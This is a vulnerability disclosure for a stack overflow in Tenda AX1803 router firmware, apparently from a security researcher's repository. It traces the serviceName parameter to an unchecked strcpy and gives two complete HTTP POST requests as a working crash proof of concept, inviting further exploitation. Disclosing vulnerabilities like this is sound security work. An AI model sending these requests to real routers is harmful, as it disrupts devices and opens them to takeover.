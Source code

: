 # Tenda AX1803 v1.0.0.1 contains a stack overflow via the serviceName parameter in the function fromAdvSetMacMtuWan

## Firmware infomation

- Manufacturer's address：https://www.tenda.com.cn/
- Affected firmware infomation：https://www.tenda.com.cn/download/detail-3421.html
- Affected firmware version：v1.0.0.1

## Vulnerability Description

The `form_fast_setting_internet_set` function in Tenda AX1803 v1.0.0.1 first extracts the value of the `netWanType` parameter from the POST request, and then passes this value to the `sub_569BC` function as the third parameter. By controlling the content of the POST request, we set the value of the `netWanType` parameter to 2, which is then passed as the third parameter to the `sub_569BC` function.
![QQ截图20240319205702](https://github.com/re1wn/IoT_vuln/assets/73987057/d399fc96-7563-4810-bcaa-d7906788ec41)
In the `sub_569BC` function, the `sprintf` function is utilized to concatenate the `wan1.connecttype` string. Subsequently, the `SetValue` function is employed to assign the value of the environment variable `wan1.connecttype` to the third parameter `a3` passed into the `sub_569BC` function, with a value of 2.
![QQ截图20240319205842](https://github.com/re1wn/IoT_vuln/assets/73987057/aec0e329-4f55-4fc9-af3c-990a4283b9dd)
The focus moves to the `fromAdvSetMacMtuWan` function. Here, the value "2" obtained from the POST request for the environment variable string `wan1.connecttype` is passed to `v6`, triggering the execution of the `sub_8C594` function.
![QQ截图20240319205842](https://github.com/re1wn/IoT_vuln/assets/73987057/60ee49e3-0a31-4a43-91d2-086c757c936c)
In the `sub_8C594` function, the value of the `serviceName` parameter is extracted from the POST request, and then passed to the `strcpy` function, resulting in a buffer overflow.
![QQ截图20240319211701](https://github.com/re1wn/IoT_vuln/assets/73987057/026d7e87-40c4-4cec-9244-3f7048488b13)
##POC

First SetValue with poc:

```
POST /goform/fast_setting_internet_set HTTP/1.1
Host: 192.168.76.149
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: password=002a77b3f3cdec7e900d0be9a911fb6bpvwtgb
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

netWanType=2&adslUser=aaaa&adslPwd=aaaa
```

Then call fromAdvSetMacMtuWan and trigger overflow.

```
POST /goform/AdvSetMacMtuWan HTTP/1.1
Host: 192.168.76.149
Content-Length: 56
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.76.149
Referer: http://192.168.76.149/mac_clone.html?random=0.7547959184452664&
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

wanMTU=1285&wanSpeed=0&cloneType=0&mac=00:00:00:00:00:01&serviceName=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&serverName=
```

We trigger a stack overflow vulnerability after sending the poc, and you may modify this for further exploiting.

